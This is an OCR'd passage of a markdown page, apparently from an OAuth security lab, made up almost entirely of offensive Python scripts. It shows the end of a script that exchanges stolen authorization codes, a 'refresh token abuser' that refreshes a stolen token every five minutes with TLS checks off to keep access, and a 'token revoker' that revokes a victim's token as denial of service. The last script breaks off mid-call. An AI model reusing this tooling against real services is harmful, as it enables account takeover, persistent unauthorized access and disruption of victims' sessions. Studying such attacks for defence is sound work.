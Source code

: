 ```python
        print(f"[-] Failed to exchange code: {response.text}")
        return None

# Usage: python code_stealer.py STOLEN_CODE
```

### Script 2: Refresh Token Abuser
```python
# refresh_abuser.py
import requests
import base64
import time

def abuse_refresh_token(refresh_token):
    """Continuously refresh tokens to maintain access"""
    
    credentials = f"{CLIENT_ID}:{CLIENT_SECRET}"
    b64_credentials = base64.b64encode(credentials.encode()).decode()
    
    headers = {
        "Authorization": f"Basic {b64_credentials}",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    while True:
        data = {
            "grant_type": "refresh_token",
            "refresh_token": refresh_token
        }
        
        response = requests.post(TOKEN_URL, headers=headers, data=data, verify=False)
        
        if response.status_code == 200:
            tokens = response.json()
            print(f"[+] Refreshed token at {time.ctime()}")
            refresh_token = tokens.get('refresh_token', refresh_token)
            time.sleep(300)  # Refresh every 5 minutes
        else:
            print(f"[-] Refresh failed: {response.text}")
            break
```

### Script 3: Token Revoker (DoS)
```python
# token_revoker.py
def revoke_token(token):
    """Revoke victim's token causing DoS"""
    
    credentials = f"{CLIENT_ID}:{CLIENT_SECRET}"
    b64_credentials = base64.b64encode(credentials.encode()).decode()
    
    headers = {
        "Authorization": f"Basic {b64_credentials}",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    data = {"token": token}
    
    response = requests.post(
        "https://server-04.oauth.labs/oauth/revoke", 
        headers=headers, 
        data=data, 
        verify=False
```